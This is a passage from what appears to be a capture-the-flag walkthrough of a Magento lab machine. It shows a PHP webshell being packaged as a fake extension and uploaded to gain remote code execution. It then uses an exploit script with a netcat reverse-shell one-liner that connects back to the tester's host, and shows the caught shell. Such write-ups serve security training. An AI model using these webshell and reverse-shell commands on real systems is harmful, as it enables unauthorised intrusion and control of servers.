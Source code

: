                     <file name="cmd.php" hash="c214a2fb80bab315fc328a5eff2892b5"/>
                </dir>
            </dir>
        </target>
    </contents>
    <compatible/>
    <dependencies>
        <required>
            <php>
                <min>5.2.0</min>
                <max>6.0.0</max>
            </php>
        </required>
    </dependencies>
    </package>
    

It is important that the hash is created correctly for the php file as
follows:

    
    
    root@kali# md5sum errors/cmd.php 
    c214a2fb80bab315fc328a5eff2892b5  errors/cmd.php
    

Now I’ll use `tar` to package it up:

    
    
    root@kali# tar -czvf package.tgz errors/ package.xml 
    errors/
    errors/cmd.php
    package.xml
    root@kali# ls
    errors  package.tgz  package.xml
    

And upload the `tgz` file, and I have RCE through a webshell:

    
    
    root@kali# curl http://10.10.10.140/errors/cmd.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Shell

With either RCE, I can upgrade to a legit shell:

    
    
    root@kali# python magento_rce.py 'http://10.10.10.140/index.php/admin' "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 9001 >/tmp/f"
    
    
    
    root@kali# nc -lnvp 9001
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::9001
    Ncat: Listening on 0.0.0.0:9001
    Ncat: Connection from 10.10.10.140.
    Ncat: Connection from 10.10.10.140:41828.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    